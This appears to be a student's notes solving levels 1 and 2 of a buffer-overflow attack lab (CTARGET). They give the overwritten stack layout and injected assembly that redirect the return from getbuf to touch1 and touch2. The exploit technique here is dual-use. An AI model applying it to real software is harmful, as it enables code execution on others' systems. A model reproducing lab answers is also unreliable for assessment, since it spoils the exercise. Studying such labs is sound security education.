 ## CTARGET Level 1
---
basically just set the return address of Getbuf to the starting address of touch1

stack we want (the first 40 bytes can be anything without 0x0a):

| 00 | 00 | 00 | 00 | 00 | 40 | 17 | c0 |   0x5561dca0

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |       

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 0x5561dc78

Hi <------------------------------------- low

## CTARGET Level 2
---

most important things: 

1. the value of %rsp should still be 0x5561dca8 even if we go to touch2 function.(can't pass the validate function)
2. the byte representation code produced by objdump is in little order.
3. when some part of the stack is deallocated, staffs stored there are not deleted, and we can still access it.

we just set the return address of Getbuf to be the starting address of the buffer located for the string, and at there we set the %rdi value, and push the starting address of touch2 to the stack(stored at 0x5561dca0), and return.

assembly code:
```
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```